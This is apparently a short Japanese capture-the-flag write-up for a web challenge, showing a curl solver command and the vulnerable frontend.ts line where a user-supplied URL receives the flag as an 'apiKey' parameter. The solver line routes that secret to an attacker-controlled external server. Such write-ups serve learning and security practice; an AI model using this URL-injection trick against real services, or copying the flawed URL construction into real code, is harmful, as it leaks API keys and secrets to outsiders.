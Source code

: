 # solver
```
curl 'http://35.194.136.248:3000/search?user={自身の管理するサーバーのURL}'
```

user変数に外部のサーバーのURLを入れてしまうと、リクエストがその外部のURLに飛んでしまい、そのリクエストに$FLAGが入っているので、自分の管理する外部サーバーのログを見ると，FLAGの入ったリクエストを見ることができると思います。

# 脆弱性のある箇所
- frontend.ts
$\{user\}にURLを入れるとそこにFLAGごとリクエストが飛ぶ
```
const uri = new URL(`${user}?apiKey=${FLAG}`, userSearchAPI);
```

# 感想
蛇足ですが、僕はSAORIとIROHAが好き
ペロロは...まぁ、可愛いですよね
